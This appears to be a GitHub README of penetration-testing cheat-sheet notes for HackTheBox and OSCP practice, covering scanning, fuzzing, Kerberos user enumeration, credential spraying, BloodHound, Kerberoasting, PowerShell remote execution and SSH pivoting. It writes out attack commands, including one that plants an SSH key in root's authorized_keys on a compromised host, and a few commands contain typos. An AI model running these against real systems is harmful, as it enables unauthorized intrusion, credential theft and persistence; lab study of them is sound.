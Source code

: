 ## table of contents

- [overview](#overview)
- [enumeration](#enumeration)
- [web](#web)
- [ad](#ad)
- [windows](#windows)
- [linux](#linux)
- [priv esc](#privesc)


## overview

This README contains notes for HackTheBox & OSCP prep.

# enumeration
## host
`nmap -sC -sV <ip>` OR `rustscan -a <ip> -- -sC -sV`

## subdomain
`ffuf -u http://DOMAIN -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.DOMAIN.COM"`

## ports
#### 88 (Kerberos)
can brute force valid users w/ kerbrute
`./kerbrute userenum --dc <ip> -d <domain> users.txt`

#### 139/445 (SMB)
enumerate valid smb creds
`crackmapexec smb <ip> -d <domain> -u <user(s)> -p <password(s)> --no-bruteforce --continue-on-success` 

# web
## fuzzing
NOSQL injection
`ffuf -u http://DOMAIN.COM/login -c -w /usr/share/seclists/Fuzzing/Databases/NoSQL.txt -X POST -d 'username=adminFUZZ&password=admin' -H 'Content-Type: application/x-www-form-urlencoded'`

# ad
## bloodhound
https://github.com/BloodHoundAD/BloodHound
https://github.com/fox-it/BloodHound.py

#### server
`sudo neo4j console`
`./BloodHound`

#### to get json
`./bloodhound.py -u <username> -p <password> -d <domain> -ns <ip> -c All`

- grab users from json
`cat <XXXX_users.json> | js '.data[].Properties | select( . enabled == true) | .name' -r > users.txt`
- remove @domain from userlist
`cat users.txt | awk -F@ '{print $1}' > o`
`mv o users.txt`

## kerberoasting
GetUserSPNs.py can be used to grab kerberos hashes after an account has be identified using Bloodhound
`./GetUserSPNs.py <domain>/<user>:<password> -outputfile kerberoast.hash`

# windows
#### powershell credential
`$cred = New-Object System-Management-Automation-PSCredential "user","pass"`
#### execute PS command
`Invoke-Command -ComputeName 127.0.0.1 -cred $cred -SCriptBlock { <command> }`
# linux

# priv esc
# post-exploitation
### pivoting
SSH as SOCKS5 proxy server
```
### ON YOUR MACHINE (10.10.10.1)
# CREATE A DIRECTORY FOR MANAGING KEYS
mkdir piv_keys && chmod 700 piv_keys
# GENERATE NEW SSH KEY
ssh-keygen -f piv_keys/id_rsa_1
# COPY PUBLIC KEY CONTENT TO CLIPBOARD
cat piv_keys/id_rsa_1 | clip.exe # OR JUST CAT AND COPY### ON A COMPROMISED MACHINE (10.10.10.2)
# ADD YOUR SSH PUBLIC KEY TO authorized_keys
echo "ssh-rsa AAAA...[REDACTED]..." >> /root/.ssh/authorized_keys### ON YOUR HOST (10.10.10.1)
# START SSH DYNAMIC PORT FORWARDING
ssh -D 9999 -f -N root@10.10.10.2 -i piv_keys/id_rsa_1
------
### ON YOUR HOST (10.10.10.1)
# CONFIGURE PROXYCHAINS (/etc/proxychains4.conf)
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5  127.0.0.1 9999
```
